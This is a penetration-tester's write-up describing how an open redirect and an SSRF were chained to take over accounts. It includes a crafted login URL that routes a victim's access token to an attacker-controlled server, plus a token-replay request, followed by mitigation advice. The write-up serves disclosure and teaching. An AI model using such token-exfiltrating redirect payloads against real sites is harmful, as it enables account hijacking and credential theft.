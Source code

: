 ```yaml
---
description: "From Useless Open Redirect and Useless SSRF to Full Account\_Takeover."
icon: spider-black-widow
cover: >-
  https://images.unsplash.com/photo-1670884307082-b1df3a86a746?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwxMHx8YmxhY2slMjBob2xlfGVufDB8fHx8MTcyMzk1MTE2NHww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# One-Click-ATO

## **Introduction**

In modern web applications, vulnerabilities often coexist in a complex ecosystem of features and endpoints. While a single vulnerability might seem harmless, when combined with another, it can lead to severe consequences. This write-up details how I'm, **z1x**, during a penetration testing engagement @[_BugSwagger LLC_](https://bugswagger.com/), chained an useless open redirect vulnerability with a server-side request forgery (SSRF) to achieve a full account takeover, bypassing security mechanisms that might otherwise seem robust.

## **Vulnerability 1: Whitelisted Open Redirect**

The journey begins with a whitelisted open redirect vulnerability in the login flow of `*.example.com`. Open redirects are often considered zero-risk, but when improperly implemented, they can be a gateway to more significant exploits.

### **Identifying the Issue**

The application’s login endpoint at `account.example.com` allows redirection to any subdomain within `*.example.com` after successful authentication. The vulnerable URL looks like this:

```python
https://account.example.com/login?signin=admin&redirect-to=*.example.com
```

<figure><img src="../../.gitbook/assets/Pasted image 20240818054733.png" alt=""><figcaption><p>White Listed and Useless Open Redirect</p></figcaption></figure>

After processing, the application redirects users along with an access token:

```python
https://app.example.com/?accsestoken=eyJ***************.eyJ***************.yCY5k***********0rfvZ51WzcHSe3NBrS8
```

This redirection behavior, combined with the inclusion of an access token, sets the stage for a potential attack.

<figure><img src="../../.gitbook/assets/Pasted image 20240818055137.png" alt=""><figcaption><p>Account JWT Leaked In GET Request</p></figcaption></figure>

## **Vulnerability 2: SSRF on a Whitelisted Subdomain**

Next, we discovered an SSRF vulnerability within the API subdomain `api.example.com`. SSRF vulnerabilities allow an attacker to make arbitrary HTTP requests from the server, potentially accessing internal services or even the internet.

### **Examining the SSRF Endpoint**

The vulnerable API endpoint is designed to reverse file contents and is accessible via the following URL:

```python
https://api.example.com/v1/files/reverse?target=http://HTTP-SERVER.COM/
```

<figure><img src="../../.gitbook/assets/Pasted image 20240818055648.png" alt=""><figcaption><p>Useless SSRF Interaction</p></figcaption></figure>

Normally, this SSRF might be limited in scope, especially if the server is well-segmented. However, the fact that `api.example.com` is a whitelisted subdomain in the open redirect functionality adds a critical dimension to this vulnerability.

## **Chaining the Vulnerabilities**

Here’s where the magic happens. By combining the open redirect vulnerability with the SSRF, we can escalate the situation dramatically.

### **Crafting the Exploit**

We can exploit the open redirect by targeting the SSRF endpoint directly:

```python
https://account.example.com/login?signin=admin&redirect-to=https://api.example.com/v1/files/reverse?target=http://our-httpserver/?token=
```

This crafted URL does the following:

1. **Step 1:** The user authenticates at `account.example.com`, which then attempts to redirect them to a whitelisted subdomain.
2. **Step 2:** The redirect targets the SSRF endpoint at `api.example.com` instead of the intended `app.example.com`.
3. **Step 3:** The SSRF endpoint is tricked into making a request to our server (`http://our-httpserver/?token=`), effectively leaking the access token.

<figure><img src="../../.gitbook/assets/Pasted image 20240818060207.png" alt=""><figcaption><p>JWT of Victim Leaked After Clicking Crafted URL </p></figcaption></figure>

### **Achieving Account Takeover**

With the access token in hand, we can craft a legitimate request to `app.example.com`:

```python
https://app.example.com/?accses_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ***************.yCY5k***********0rfvZ51WzcHSe3NBrS8
```

This allows us to impersonate the victim user and take over their account, all from a seemingly innocuous open redirect combined with a simple SSRF.

## **Mitigation Strategies**

To prevent such exploits, consider the following strategies:

* **Tighten Whitelists:** Avoid overly broad whitelists for redirects. Only allow specific, necessary domains.
* **Token Handling:** Avoid including sensitive tokens in URLs. Use secure storage mechanisms like cookies with HTTP-only flags.
* **SSRF Protections:** Implement strict input validation and response filtering for SSRF-prone endpoints.

## **Conclusion**

This case illustrates how two vulnerabilities, which might be considered low-risk individually, can be chained to create a critical security breach. It’s a reminder that thorough vulnerability analysis must consider the potential for chaining attacks, and developers should build security mechanisms with this in mind. My experience @[_BugSwagger LLC_](https://bugswagger.com/) highlights the importance of understanding how different vulnerabilities interact within a system, ultimately helping secure our digital future.

